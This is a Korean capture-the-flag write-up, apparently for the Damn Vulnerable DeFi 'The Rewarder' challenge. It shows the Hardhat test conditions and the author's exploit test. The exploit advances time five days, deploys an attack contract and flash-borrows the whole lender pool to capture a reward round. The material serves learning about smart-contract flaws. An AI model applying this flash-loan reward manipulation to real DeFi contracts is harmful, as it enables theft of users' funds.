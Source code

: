 ```tsx
        expect(
            await this.rewarderPool.roundNumber()
        ).to.be.eq('3');

        // Users should get neglegible rewards this round
        for (let i = 0; i < users.length; i++) {
            await this.rewarderPool.connect(users[i]).distributeRewards();
            let rewards = await this.rewardToken.balanceOf(users[i].address);
            
            // The difference between current and previous rewards balance should be lower than 0.01 tokens
            let delta = rewards.sub(ethers.utils.parseEther('25'));
            expect(delta).to.be.lt(ethers.utils.parseUnits('1', 16))
        }
        
        // Rewards must have been issued to the attacker account
        expect(await this.rewardToken.totalSupply()).to.be.gt(ethers.utils.parseEther('100'));
        let rewards = await this.rewardToken.balanceOf(attacker.address);

        // The amount of rewards earned should be really close to 100 tokens
        let delta = ethers.utils.parseEther('100').sub(rewards);
        expect(delta).to.be.lt(ethers.utils.parseUnits('1', 17));

        // Attacker finishes with zero DVT tokens in balance
        expect(await this.liquidityToken.balanceOf(attacker.address)).to.eq('0');
    });
});
```

여기서 대출 풀에 들어있는 금액은 TOKENS_IN_LENDER_POOL로 선언되어 있으므로 이를 이용하자.

```tsx
it('Exploit', async function () {
        await ethers.provider.send("evm_increaseTime", [5 * 24 * 60 * 60]); // 5 days
        const attackFactory = await ethers.getContractFactory('attack', attacker);
        this.attack = await attackFactory.deploy(this.rewarderPool.address,
            this.flashLoanPool.address
            , this.liquidityToken.address 
            ,this.accountingToken.address,
            this.rewardToken.address,
            attacker.address);
        this.attack.connect(attacker).solve(TOKENS_IN_LENDER_POOL);
    });
```

hardhat에서는 일정 시간 이후 테스트를 제공하기 위해 ethers.provider.send(”evm_increaseTime”,[시간(초단위)]) 를 통해 일정시간을 진행시킬 수 있다.

이를 이용하여 1라운드 시간인 5일을 진행시키고 attack 컨트랙트를 deploy한 후 solve함수로 대출 풀에서 최대치를 대출받도록 했다.

![성공.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/df79a2a3-8e3d-4816-83d3-5df635c5eec3/%EC%84%B1%EA%B3%B5.png)

그리고 npm run the-rewarder를 통해 테스트를 실행해보면 Exploit이 정상적으로 잘 진행된 것을 확인할 수 있다.
